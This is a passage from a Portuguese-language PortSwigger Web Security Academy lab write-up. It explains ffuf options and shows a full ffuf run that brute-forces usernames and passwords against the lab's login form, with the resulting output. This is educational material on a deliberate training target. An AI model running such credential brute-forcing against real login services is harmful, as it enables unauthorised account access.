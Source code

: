 onde `users.txt` é um arquivo com uma lista de usuários e `pass.txt` é um arquivo com uma lista de senhas que já foram fornecidas pelo laboratório e estão sendo referenciados pelo `-w`, o `-X` é para definir o método de requisição, o `-d` é para definir os parâmetros que serão enviados para o back-end, o `-H` é para definir o cabeçalho da requisição e o `-u` é para definir a URL que será utilizada.

Porém o mais comum aqui seria comparar o tamanho das respostas dada pelo servidor, para saber se o usuário existe ou não. Porém, nesse laboratório, o tamanho das respostas é muito diferente, independente do usuário testado.

```bash

╭─[LAPTOP-HRI3FQ3J] as root in ~/Documents/portswigger                                                         02:52:07
╰──➤ ffuf -w users.txt:USERS -w pass.txt:PASS -X POST -d "username=USERS&password=PASS" -H "Content-Type: application/x-www-form-urlencoded" -u https://0adc0080041796c6c00eef5200ad008b.web-security-academy.net/login

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : POST
 :: URL              : https://0adc0080041796c6c00eef5200ad008b.web-security-academy.net/login
 :: Wordlist         : USERS: users.txt
 :: Wordlist         : PASS: pass.txt
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : username=USERS&password=PASS
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

[Status: 200, Size: 2979, Words: 1109, Lines: 63, Duration: 252ms]
    * PASS: 123456
    * USERS: admin

[Status: 200, Size: 2994, Words: 1118, Lines: 64, Duration: 252ms]
    * USERS: accounts
    * PASS: 123456

[Status: 200, Size: 2975, Words: 1109, Lines: 63, Duration: 283ms]
    * USERS: adkit
    * PASS: 123456

[Status: 200, Size: 2978, Words: 1109, Lines: 63, Duration: 283ms]
    * USERS: administrator
    * PASS: 123456

[Status: 200, Size: 2975, Words: 1109, Lines: 63, Duration: 289ms]
    * USERS: activestat
    * PASS: 123456


```
